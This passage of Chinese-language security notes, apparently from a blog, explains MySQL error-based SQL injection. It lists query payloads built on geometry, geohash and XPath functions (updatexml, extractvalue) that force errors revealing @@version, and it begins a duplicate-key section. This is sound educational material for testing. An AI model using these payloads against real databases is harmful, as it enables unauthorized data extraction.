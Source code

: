 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211417654.png)

### 特殊的数学函数

几何对象函数

```
select multipoint((select*from(select*from(select @@version)x)y));
select geometrycollection((select*from(select*from(select @@version)x)y));
select polygon((select*from(select*from(select @@version)x)y));
select multipolygon((select*from(select*from(select @@version)x)y));
select linestring((select*from(select*from(select @@version)x)y));
select multilinestring((select*from(select*from(select @@version)x)y));
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211426633.png)

空间函数

```
select ST_LongFromGeoHash((select*from(select*from(select @@version)x)y));
select ST_LatFromGeoHash((select*from(select*from(select @@version)x)y));
select ST_PointFromGeoHash((select*from(select*from(select @@version)x)y),1);
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211435901.png)

### xpath语法错误

`ExtractValue()`和`UpdateXML()`

`ExtractValue(xml_frag, xpath_expr)`

`UpdateXML(xml_target, xpath_expr, new_xml)`

第二个参数都要求符合xpath语法,如果不符合就会报错并带有数据,通过在前后添加`~`即`0x7e`使其不符合xpath格式从而报错

```
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211521265.png)

### 重复数据报错

主键具有唯一性,主键重复则会报错

```
select * from table3;
+----+------+
| id | info |
+----+------+
| 1  | a    |
| 2  | a    |
| 3  | b    |
| 4  | c    |
| 5  | c    |
+----+------+
```
